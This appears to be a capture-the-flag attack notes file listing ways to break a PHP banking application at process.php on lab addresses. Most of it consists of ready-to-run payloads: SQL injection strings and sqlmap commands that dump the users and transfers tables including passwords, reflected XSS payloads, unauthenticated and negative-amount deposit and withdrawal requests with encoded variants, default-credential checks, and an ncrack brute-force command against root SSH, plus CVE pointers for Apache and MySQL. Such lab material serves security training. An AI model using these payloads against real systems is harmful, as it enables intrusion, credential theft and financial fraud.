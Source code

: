 # Possible attacks

## strange requests

## | or request
http://localhost:8888/process.php?user=dima1234||dado1234&pass=dima1234567&amount=1&drop=register

http://localhost:8888/process.php?user=$|%27dima3124do&pass=dima1234567&amount=1&drop=register

## Other things to try

Thank you @francolmenar for all of this

- Do SQL injection on the user parameter when requesting the balance. 
  - In user param: `a' OR 1=1 --`
  - With sqlmap:
    - Discover dbs: `sqlmap -u "http://10.1.5.2/process.php?user=aa&pass=aa&drop=balance" -p "user" --dbs`
    - Discover tables: `sqlmap -u "http://10.1.5.2/process.php?user=aa&pass=aa&drop=balance" -p "user" -D ctf2 --tables`
    - Dump users table: `sqlmap -u "http://10.1.5.2/process.php?user=aa&pass=aa&drop=balance" -p "user" -D ctf2 -T users --dump`
    - Dump transfers table: `sqlmap -u "http://10.1.5.2/process.php?user=aa&pass=aa&drop=balance" -p "user" -D ctf2 -T transfers --dump`
- Compromise user accounts with sql injection:
  - All usernames: `http://10.1.5.2/process.php?user=a%27+OR+1%3D1+UNION+select+null%2C+pass%2C+user+from+users%3B+--+&pass=aa&amount=&drop=balance`
  - All passwords: `http://10.1.5.2/process.php?user=a%27+OR+1%3D1+UNION+select+null%2C+user%2C+pass+from+users%3B+--+&pass=aa&amount=&drop=balance`
  - Find database user with sql injection: `http://10.1.5.2/process.php?user=%27+UNION+select+null%2C+null+user()+--+&pass=aa&drop=balance`
  - Find database version with sql injection: `http://10.1.5.2/process.php?user=%27+UNION+select+null%2C+null+database()+--+&pass=aa&drop=balance`
- Reflected XSS
  - In user parameter:
    - curl `http://10.1.5.2/process.php?user=<script>alert(1)</script>&pass=temp&drop=balance`
    - curl `http://10.1.5.2/process.php?user=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&pass=temp&drop=balance`
  - In pass parameter:
    - curl `http://10.1.5.2/process.php?user=temp&pass=</script><script>alert("xss")</script><script>&drop=register`
- No authentication when making deposits and withdrawals.
  - curl `http://10.1.5.2/process.php?user=temp&pass=temp&amount=100&drop=deposit`
  - curl `http://10.1.5.2/process.php?user=temp&pass=temp&amount=100&drop=withdraw`
- Possible to insert amount with negative sign
  - Deposit with negative sign
    - curl `http://10.1.5.2/process.php?user=temp&pass=temp&amount=-1000&drop=deposit`
    - Decimal Ascii Encoded Payload: curl `http://10.1.5.2/process.php?%117%115%101%114%61%116%101%109%112%38%112%97%115%115%61%116%101%109%112%38%97%109%111%117%110%116%61%45%49%48%48%48%38%100%114%111%112%61%100%101%112%111%115%105%116`
    - Hex Ascii Encoded Payload: curl `http://10.1.5.2/process.php?%75%73%65%72%3D%74%65%6D%70%26%70%61%73%73%3D%74%65%6D%70%26%61%6D%6F%75%6E%74%3D%2D%31%30%30%30%26%64%72%6F%70%3D%64%65%70%6F%73%69%74`
    - Hex Ascii Encoded only amount: curl `http://10.1.5.2/process.php?user=temp&pass=temp&amount=%2D%31%30%30%30&drop=deposit`
    - curl `http://10.1.5.2/process.php?user=temp&pass=temp&amount=-1000&drop=withdraw`
    - curl `http://10.1.5.2/process.php?user=temp&pass=temp&amount=%2D%31%30%30&drop=withdraw`
- Send integer values in strings
  - curl `http://10.1.5.2/process.php?user=temp&pass=temp&amount=11temp22&drop=desposit`
- Check if default creadentials work
  - curl `http://10.1.5.2/process.php?user=jelena&pass=abcdef&drop=balance`
  - curl `http://10.1.5.2/process.php?user=john&pass=abcdef&drop=balance`
  - curl `http://10.1.5.2/process.php?user=kelly&pass=abcdef&drop=balance`
- Interesting
  - curl `http://10.1.5.2/process.php?user=aaa&pass=aaa&amount=-1&#45100&drop=balance` -> bypasses the drop=balance going to the default option.
  - curl `http://10.1.5.2/process.php?user=random&pass=aaaa&amount=0.23e5&drop=deposit` -> reads number elevated to the power after e.
  - curl `http://10.1.5.2/process.php?user=random&pass=random&amount[]=-5&amount[]=200&drop=deposit` => amount evaluated as 1
  - curl `http://10.1.5.2/process.php?user=random&pass=random&amount=-0b11&drop=deposit` => with intval is evaluated to 0 but try it anyway
- Server's password brute forcing with ncrack: `ncrack -p 22 --user root -P $passwords_file $TARGET`

## References for vulnerabilities:

https://www.cybersecurity-help.cz/vdb/SB2020102113

- exploit-db => use searchsploit in Parrot and Kali
- apache httpd 2.4.29 (if they keep this insecure version)
  - CVE-2019-0211 => Local Privilege Escalation (if able to gain access as a low privileged user)
    - `https://www.cvedetails.com/cve/CVE-2019-0211/`
    - `https://www.exploit-db.com/exploits/46676`
  - CVE-2020-11984 => Apache HTTP server 2.4.32 to 2.4.44 mod_proxy_uwsgi info disclosure and possible RCE
    - `https://nvd.nist.gov/vuln/detail/CVE-2020-11984`
  - CVE-2020-9490 => Apache HTTP Server versions 2.4.20 to 2.4.43. A specially crafted value for the 'Cache-Digest' header in a HTTP/2 request would result in a crash when the server actually tries to HTTP/2 PUSH a resource afterwards.
    -`https://nvd.nist.gov/vuln/detail/CVE-2020-9490`
- MySQL 5.7.31:
  - CVE-2020-14812 => Easily exploitable vulnerability allows low privileged attacker with network access via multiple protocols to compromise MySQL Server. Successful attacks of this vulnerability can result in unauthorized ability to cause a hang or frequently repeatable crash (complete DOS) of MySQL Server.
    - `https://ubuntu.com/security/CVE-2020-14539`
